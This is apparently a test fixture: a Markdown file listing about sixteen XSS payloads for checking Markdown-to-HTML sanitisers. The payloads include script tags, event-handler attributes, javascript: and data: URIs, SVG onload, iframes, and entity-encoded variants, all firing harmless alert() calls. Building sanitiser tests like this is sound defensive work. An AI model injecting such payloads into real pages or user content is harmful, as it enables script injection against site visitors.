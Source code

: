 # XSS Payloads for Markdown Testing

This document contains various XSS payloads for testing the security of Markdown converters.

---

## 0. False positive
<img src="script.jpg">

## 1. Script tag

<script>alert('XSS1')</script>

---

## 2. Image tag with onerror

![Test image](x" onerror="alert('XSS2'))

Or raw HTML:

<img src="x" onerror="alert('XSS3')">

---

## 3. Link with javascript:

[Click me](javascript:alert('XSS4'))

---

## 4. Event handler attributes

<a href="#" onclick="alert('XSS5')">Click here</a>

<div onmouseover="alert('XSS6')">Hover over me</div>

---

## 5. Inline style with expression

<div style="width: expression(alert('XSS7'));">Test div</div>

---

## 6. Data URI

[Click me](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=)

---

## 7. SVG with onload

<svg onload="alert('XSS8')"></svg>

Or embedded in a data URI:

![SVG Image](data:image/svg+xml,<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>)

---

## 8. Iframe

<iframe src="javascript:alert('XSS9')"></iframe>

---

## 9. HTML entities encoding

<script>alert&#40;'XSS10'&#41;</script>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert('XSS11');>

<img src="%6a%61%76%61%73%63%72%69%70%74:alert(1)">


---

## 10. HTML comment breakout

<!--><script>alert('XSS12')</script>

---

## 11. Mixed Markdown and raw HTML

**Bold text** <script>alert('XSS13')</script>

---

## 12. Table with XSS

| Name | Value |
|------|-------|
| <img src=x onerror=alert('XSS14')> | test |

---

## 13. Horizontal rule below script

<script>alert('XSS15')</script>

---

## 14. Inline code

`<script>alert('XSS16')</script>`

---

## 15. Block code fence
